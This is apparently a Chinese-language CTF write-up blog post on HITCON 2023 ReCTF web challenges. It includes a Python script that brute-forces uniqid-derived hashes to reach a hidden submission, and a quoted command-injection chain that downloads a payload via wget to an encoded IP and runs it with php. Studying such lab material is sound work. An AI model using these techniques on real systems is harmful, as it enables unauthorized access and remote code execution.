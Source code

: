 ```yaml
---
title: HITCON-2023-ReCTF
date: 2023-08-27 20:50:27
tags:
- [CTF]
categories:
cover: https://files.sakana.tw/blog/HITCON-2023-ReCTF/cover.jpg
---
```

## 緣由
上周被公司派去參加了 hitcon 2023，看到年齡相近的大神們那超高水準的研究以及充滿夢想(?)的眼神後，被激勵到，又燃起 hacker 的熱情了。
剛好想到自己有個夢想就是挖洞拿獎金達到財富自由，由於在台上的講者們都曾是 ctf 王，打 ctf 似乎是個鍛鍊挖洞技能的好方法，於是打算如法炮製，試著打打看，看一年後有沒有機會真的變成挖洞高手，挖洞賺大錢。

在這次 hitcon 2023 我玩了 devcore wargame 和 rectf，{% post_link DEVCORE-Wargame-2023 %} 的部分，在活動的兩天內我只解的掉一題水題...(儘管我仍然花了 5 個小時)，rectf 因為開放時間比較久，費盡洪荒之力總算是解了兩題。在這邊放上 writeup 和簡單的心得，記錄一下。

## ReCTF
顧名思義，這個活動是將從前 hitcon ctf 出過的題目進行復刻。

### papapa
> 環境：[Hitcon-Ctf-2016-Papapa 建置環境](https://peterli.website/hitcon-ctf-2016-papapa-%E5%BB%BA%E7%BD%AE%E7%92%B0%E5%A2%83/)
{% img https://files.sakana.tw/blog/HITCON-2023-ReCTF/papapa-1.png 450 挖勒 %}
一進來頁面就長這樣，啥 input 都沒有，看了 cookie 感覺也沒能控制的點，我無言了...。
通靈了一下子，決定爬文搜 papapa ctf，發現是 hitcon 2016 時 orange 出的題目([連結](https://peterli.website/hitcon-ctf-2016-papapa-%E5%BB%BA%E7%BD%AE%E7%92%B0%E5%A2%83/))，並翻了 orange github 的出題 src，原來解題的關鍵在憑證...。
{% img https://files.sakana.tw/blog/HITCON-2023-ReCTF/papapa-2.png 450 %}

直接 burpsuite 改 host，拿到 flag `FLAG{Nw_u_F0un6_myh05t}`
{% img https://files.sakana.tw/blog/HITCON-2023-ReCTF/papapa-3.png 450 %}

但其實這 flag 傳上去是錯的，窩操，傻住了一下，搞不好是藏在其他頁，重新走整個流程再試一次。
{% img https://files.sakana.tw/blog/HITCON-2023-ReCTF/papapa-4.png 450 %}
這次真的拿到了 `hitcon{n0w_4y_h4v3_th3_f14g}`，原來 flag 不是在 `/index.html` 是在 `/`，還好不是藏很深(呼氣)。

### yeeclass
> 環境：附上 [docker-compose](https://github.com/t510599/My-CTF-Challenges/tree/master/HITCON%20CTF/2022/yeeclass)
{% img https://files.sakana.tw/blog/HITCON-2023-ReCTF/yeeclass-1.png 450 %}
這個題目很佛心的給了你整個 source 包括 docker compose，所以只要 trace code 就好，
我原本是這樣想的...，但我前一小時真的看不出洞。
本以為是打 sql injection，但整份 code 都使用 POD execute，應該不是這問題。
後來才發現，submission.php 中有一個判斷失誤，`PERM_TA` 為 1，`_SESSION`不存在時，其在 boolean 的判斷會當成 0 的樣子，可以繞過拿到 FLAG 的清單 (`homework=1`)
{% img https://files.sakana.tw/blog/HITCON-2023-ReCTF/yeeclass-2.png 450 %}

於是我把 cookie 清掉再讀一次網頁，繞過了，可惜這邊還是看不到 flag 內容
{% img https://files.sakana.tw/blog/HITCON-2023-ReCTF/yeeclass-3.png 450 %}

同時 submission.php 中看到了這一段，我突發奇想: "是不是有辦法 userclass 沒設定但 userid 設定成 `flagholder`"，這樣我就有拿的到 hash 去存取 flag 頁面了？！
``` php
<?php foreach ($result as $row) { ?>
<tr>
    <?php if ((isset($_SESSION["userid"]) && $_SESSION["userclass"] >= PERM_TA) || $row["userid"] == $_SESSION["userid"]) { ?>
    <td><a href="submission.php?hash=<?= $row['hash'] ?>"><?= $row["name"] ?></a></td>
```
於是我轉向 `index.php`，查了一堆資料想了各種可能 (e.g. HPP、race condition)，想破頭了覺得沒辦法做到。
``` php
// 邏輯大概是這樣，一氣呵成，看不出破綻
    $login_query = $pdo->prepare("SELECT * FROM user WHERE username=?");
    $result = $login_query->fetch(PDO::FETCH_ASSOC);
    $_SESSION["userid"] = $result["id"];
    $_SESSION["username"] = $result["username"];
    $_SESSION["userclass"] = $result["class"];
```
最後我破防了，去看出題者的說明，發現要利用 uniuid 直接拿時間戳產生的特性，推出當初用來算 hash 的 uid，學到了...，因為從上一步的繞過，我得到了 flag 的提交時間，可以寫 exploit 了。
exploit 基本上就是參考 php source uniuid 的寫法，其他比較花時間的部分，大概就是想辦法把日期時間轉換成 unixtimestamp 並且 parse 成對應格式，以及一些 POC 的基本驗證了 (我一開始還 parse 錯)
``` python
import http.client
import hashlib
# target url
url = 'rectf.hitcon2023.online'
# The flag submission time
sec = 1692158975
usec = 584096

for  i in range(300,1,-1):
    flag_submit_id = f"flagholder_{sec:x}{usec-i:x}"

    hash = hashlib.sha1(flag_submit_id.encode()).hexdigest()
    print(f"Testing {flag_submit_id}")

    conn = http.client.HTTPConnection(url, 30203)
    # conn = http.client.HTTPConnection(url, 8210)
    conn.request('GET',f'/submission.php?hash={hash}')
    r2 = conn.getresponse()
    data2 = r2.read()
    if(data2 != b'Submission not found.'):
        print(f'Successfully get flag with {hash}')
        print()
        print(data2)
        break
    conn.close()
```
Reference:
- https://stoneapp.tech/cavern/post.php?pid=948

### babyfirst
> 環境: [babyfirst](https://github.com/orangetw/My-CTF-Web-Challenges/tree/master/hitcon-ctf-2015/babyfirst) (至於當時環境的 php 版本我用 wappalyzer 看記得是 7.1.34，但我想用啥版本都影響不大，反正我用 8.1 好像還是一樣可以打)
<script src="https://gist.github.com/orangetw/cb3487e47d7aaaea4692.js"></script>
(應該沒人認真看這篇，我偷偷 host orange 的 gist 應該不會有人發現吧？)

找資料發現 `preg_match` 有個 `\n` 的 mismatch 洞之後，測了一兩個小時，
確定只能這樣串 `$args = ['AAA\n','mycmd','my parameter\n','mycmd']`，沒其他特殊字元可以繞過了。

串指令的路線
1. 寫入 base64 檔案 + decode base64 檔案 + 執行檔案
   - 如何寫入？狗到的方式都是 `echo xxx > file`，有 `>`
   - `base64 -decode` 有 `-`
2. 下載檔案 + 執行檔案
   - 如何下載？首先 ip `xxx.xxx.xxx.xxx` 就有 `.`

感覺都不行，我低下的想像力不知道怎麼辦了。偷偷看了一下 orange 的 writeup，確定 wget 可以。於是我又想了一個小時，靈機一動 ip 有 decimal 形式，`wget 2130706433(127.0.0.1)`成功下載檔案。
但 `wget` 抓下來的檔名是 `index.html`，就算 302 轉向到別的網頁還是一樣。又卡住了 QQ。
爬文幾乎每篇講 linux 下載檔案的，都是用 curl、wget。而 curl 也是會用到特殊符號。mv 也要輸入檔案名 `index.html`

在爬了一個多小時的文之後，果斷去看 writeup🥹。
```
mkdir orange
cd orange
wget HEXED_IP
tar cvf payload orange
php payload
```
看了我還是不懂，php 怎麼可能執行 tar 後的檔案，實際試了一次後，shit，還真的可以直接執行😱，為什麼會有這種 feature？！

除此之外還有
- wget 302 重導向到 ftp，可以解決 index.html 預設檔名的問題。
- busybox ftpget
- twistd telnet

這些解法確實是超出我的理解範圍了。

Reference:
- https://kb.hitcon.org/post/131488130087/hitcon-ctf-2015-quals-web-%E5%87%BA%E9%A1%8C%E5%BF%83%E5%BE%97

### 其他題
其他題我還沒打，網站就關了，88。

### 心得

#### papapa
資訊收集的部分要再細心一點，都用 nmap 去掃這網站的 ip 了，卻沒注意到憑證這個部分。
另外意外的收穫就是從 orange 架這題目的 src，學到了 apache 的 virtual host 這個 feature，
原來有這種酷東西，感覺架網站時很有用，並且底層是檢查 http header 中的 `host:` 進行轉送的。
Reference:
- https://github.com/orangetw/My-CTF-Web-Challenges#papapa
- https://blog.51cto.com/milenovo/1698875
- https://httpd.apache.org/docs/2.4/vhosts/name-based.html

#### yeeclass
這一個我感覺就差一點，我因為原本的想法失敗就放棄了，但我認為我是有能力觀察到 uniuid 那邊的貓膩的，
這邊沒有堅持住，搥牆，要改進才行。
在說做不到之前，必須好好確認是不是還有其他可以利用的線索還沒觀察到的。

#### babyfirst
看完 writeup 後，我難得慶幸還好我有看，因為我真的想不出來這幾招...學到了。
可能也是因為我對 linux 的 coreutils 太不熟了，希望未來會改善。



